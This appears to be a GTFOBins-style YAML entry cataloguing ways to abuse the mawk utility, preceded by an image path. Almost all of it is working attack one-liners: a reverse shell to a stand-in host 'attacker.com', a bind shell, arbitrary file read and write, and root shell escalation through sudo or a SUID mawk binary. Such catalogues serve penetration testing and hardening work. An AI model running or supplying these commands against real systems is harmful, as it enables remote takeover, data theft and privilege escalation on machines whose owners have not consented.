 ```yaml
---
functions:
  shell:
    - code: mawk 'BEGIN {system("/bin/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mawk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        mawk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        mawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        mawk '//' "$LFILE"
  sudo:
    - code: sudo mawk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./mawk 'BEGIN {system("/bin/sh")}'
---
```


